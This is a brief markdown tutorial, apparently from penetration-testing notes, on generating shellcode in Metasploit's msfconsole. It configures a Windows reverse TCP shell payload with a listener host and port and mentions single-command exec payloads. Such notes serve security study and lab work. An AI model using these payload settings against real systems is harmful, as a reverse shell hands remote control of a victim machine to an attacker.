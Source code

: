 # Generate shellcode

An easy way to generate shellcode is by using `msfvenom` or `msconsole`. I mostly see people recommending msfvenom online, but I think msfconsole can be a bit easier to work with. But of course it is the same thing, just different interfaces.

## Msfconsole

In msfconsole you have the keyword `generate` that help us generate shellcode. So first we have to select a payload.

```
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```
set LPORT 5555
set LHOST 192.168.0.101
```

Now we genereate the shellcode using the command `generate`.

To see the options use `generate -h`

## Single commands in windows

If you don't have space and only want to execute a single command you can use

```
use payload/windows/exec

use payload/cmd/windows/generic
```

